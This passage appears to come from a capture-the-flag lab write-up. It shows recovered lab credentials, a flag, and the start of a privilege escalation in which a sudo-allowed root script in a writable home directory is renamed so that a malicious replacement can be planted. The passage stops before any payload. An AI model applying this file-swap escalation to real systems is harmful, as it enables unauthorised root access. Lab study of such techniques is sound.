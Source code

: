```html
unset($_SESSION['favcolor']);
header("Refresh: 0.1; url=index.html");
}
?>

```


We got some credentials:

```
cyber:super#secure&password!
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250425131719.png)


Let's begin PrivEsc.


# PRIVILEGE ESCALATION
---

```
cyber@ubuntu:~$ cat flag1.txt
THM{6f7e4dd134e19af144c88e4fe46c67ea}
```

If we check our privileges, we can notice this:

```
cyber@ubuntu:~$ sudo -l
Matching Defaults entries for cyber on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cyber may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/python3 /home/cyber/run.py
```

Let's check that file then:

```
cyber@ubuntu:~$ ls -la run.py
-rwx------ 1 root root 349 Nov 15  2020 run.py
cyber@ubuntu:~$ cat run.py
cat: run.py: Permission denied
```

Only `root` can visualize or edit the file, the vulnerability on here lays on the path, since the script is inside of `cyber`, we can modify the file into another extension and create a malicious `run.py` file:

```bash
mv run.py run.py.php
```
